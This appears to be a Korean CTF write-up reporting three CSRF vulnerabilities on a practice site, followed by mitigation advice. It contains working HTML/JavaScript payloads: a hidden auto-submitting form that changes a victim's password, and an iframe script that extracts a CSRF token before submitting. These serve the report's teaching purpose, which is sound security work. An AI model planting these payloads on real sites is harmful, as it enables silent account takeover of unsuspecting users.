







# CSRF Report

## 개요

본 보고서는, 웹 애플리케이션 내 특정 기능에서 발견된 **Cross-Site Request Forgery (CSRF)** 취약점에 대한 분석을 목적으로 작성되었습니다.

총 **3건의 개별 CSRF 취약점이 발견**되었으며, 각각 다른 기능에서 발생하였습니다.

해당 취약점은 공격자가 피해자의 브라우저를 통해 의도하지 않은 요청을 전송하도록 유도함으로써, 설정 변경, 비밀번호 변경 등의 악의적인 행위가 발생할 수 있습니다.

또한 관리자 계정이 공격 대상일 경우 간접적인 권한 상승 효과도 발생할 수 있습니다.

---

## 요약

- 총 발견된 CSRF 취약점: 3건
- 주요 위험 행위:
  - 비밀번호 무단 변경
  - 관리자 기능 요청 유도 가능성
- 보안 취약 원인: 
  - **CSRF Token 미사용**: 일부 기능은 CSRF Token 없이 요청이 처리되어 외부 사이트에서 임의 요청을 전송할 수 있음
  - **Referer 검증 미비**: 요청의 출처에 대한 서버 측 검증이 없어 외부 출처에서도 내부 요청이 가능함
  - **CSRF Token 우회 가능**: 특정 기능은 CSRF Token을 사용하지만, 토큰이 HTML 내에 그대로 노출되어 있으며 `iframe`을 통해 추출 및 악용이 가능함

---

## 내용

### CSRF 1

- 문제 이름: **GET Admin 1**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_1/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **GET 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명:
해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이
파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가짐.



- 공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입함.

페이로드:
```html

```




- **공격용 게시글 목록 화면 (페이로드 노출 없음)**  
사용자는 일반 게시글처럼 보여 클릭 유도됨.



- 관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경됨**.

---

### CSRF 2

- 문제 이름: **GET Admin 2**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_2/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **POST 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명: 해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리함.
이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능함.



- 요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있음.




페이로드:
```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none;"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

- 이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,
같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있음.**

- 또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 함.

따라서 피해자는  
**회원 정보 수정에 성공하셨습니다!**와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출됨.**

---

### CSRF 3

- 문제 이름: **GET Admin 3**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_3/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **CSRF Token 우회**
- 취약점 심각도: **HIGH**

- 설명:  
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정함.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있음.




- 공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**함.

페이로드:
```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```



- 공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없음.

> 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있음.**

---

## 대응 방안

- CSRF 방지를 위해 다음과 같은 보안 조치가 필요함:

  - 모든 상태 변경 요청에는 CSRF Token을 포함하고, 해당 토큰을 서버 측에서 검증할 것
  - Referer 또는 Origin 헤더를 기반으로 요청 출처를 검증할 것
  - CSRF Token은 HTML 내에 직접 노출하지 않고, JavaScript 접근이 불가능한 httpOnly Cookie 또는 서버 렌더링 방식으로 처리할 것
  - 요청 메서드(GET → POST) 및 민감한 정보 변경 로직의 접근 제한 강화

- 특히 관리자 계정의 기능 접근 시, CSRF 취약점을 통해 권한 상승이 가능한 구조가 발견되었으므로  
**즉시 수정 및 보완 조치가 필요함**


